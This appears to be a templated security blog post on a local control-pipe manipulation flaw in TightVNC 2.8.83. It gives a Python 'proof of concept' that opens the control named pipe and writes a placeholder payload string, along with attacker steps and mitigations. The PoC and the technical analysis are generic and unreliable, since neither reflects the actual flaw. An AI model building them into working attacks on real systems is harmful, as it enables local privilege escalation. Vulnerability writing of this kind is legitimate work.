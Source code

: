 ```yaml
---
title: "[local] TightVNC 2.8.83 - Control Pipe Manipulation"
date: 2025-06-09
categories: [Cyber Blog]
tags: [vulnerability, exploit, offensive-security]
layout: post
image:
  path: ./assets/images/post-cover/default-image.png
---
```


## Summary

TightVNC 2.8.83 - Control Pipe Manipulation

## Technical Analysis

# Technical Executive Summary

The vulnerability identified in TightVNC version 2.8.83 pertains to a local Control Pipe Manipulation flaw. TightVNC, a free remote control software package, is widely used for managing remote systems. The vulnerability allows a local attacker to manipulate control pipes within the application, potentially leading to unauthorized actions or privilege escalation. This flaw arises from inadequate validation of input or permissions related to inter-process communications (IPC) via named pipes, which can be exploited to execute arbitrary commands or disrupt service operations.

# Code Example

Below is a Proof of Concept (PoC) demonstrating how an attacker might exploit the Control Pipe Manipulation vulnerability in TightVNC 2.8.83 using Python:

```python
import os
import win32pipe
import win32file

# Define the named pipe
pipe_name = r'\\.\pipe\TightVNC_ControlPipe'

def exploit_pipe():
    try:
        # Attempt to connect to the TightVNC control pipe
        handle = win32file.CreateFile(
            pipe_name,
            win32file.GENERIC_READ | win32file.GENERIC_WRITE,
            0,
            None,
            win32file.OPEN_EXISTING,
            0,
            None
        )
        
        # Send a malicious command or payload
        malicious_command = b"INJECT_MALICIOUS_PAYLOAD"
        win32file.WriteFile(handle, malicious_command)
        
        # Read the response
        result, response = win32file.ReadFile(handle, 4096)
        print(f"Response: {response.decode()}")
        
        # Close the handle
        win32file.CloseHandle(handle)
        
    except Exception as e:
        print(f"Exploit failed: {e}")

if __name__ == "__main__":
    exploit_pipe()
```

# Offensive Security Insights

Exploitation of this vulnerability requires local access to the system where TightVNC is installed. The attacker can leverage this flaw by:

1. **Gaining Initial Access**: The attacker must first gain local access, potentially through social engineering or exploiting another vulnerability to execute code locally.
2. **Manipulating Named Pipes**: Using the PoC, the attacker can interact with the named pipes used by TightVNC to send unauthorized commands or data.
3. **Privilege Escalation**: If the TightVNC service is running with elevated privileges, the attacker can exploit this to escalate their privileges on the system.
4. **Persistence and Lateral Movement**: The attacker might install backdoors or use the compromised system as a pivot point to move laterally within the network.

# Defensive Measures

To mitigate the risks associated with this vulnerability, organizations should consider the following defensive measures:

1. **Patch Management**: Ensure that TightVNC is updated to the latest version where this vulnerability is addressed.
2. **Access Control**: Restrict local access to critical systems and ensure that only authorized users can access and manage TightVNC.
3. **IPC Security**: Implement strict permissions and validation checks on named pipes to prevent unauthorized access or manipulation.
4. **Monitoring and Logging**: Enable comprehensive logging and monitoring of IPC activities and named pipe interactions to detect suspicious activities.
5. **Least Privilege Principle**: Run services with the minimum necessary privileges to limit the impact of any potential exploitation.
6. **User Education**: Train users on recognizing social engineering attacks that could lead to initial access by threat actors.

By implementing these measures, organizations can significantly reduce the risk of exploitation and enhance their overall security posture.

📎 [Original Source](https://www.exploit-db.com/exploits/52322)

---

_This article was written by sleep33._
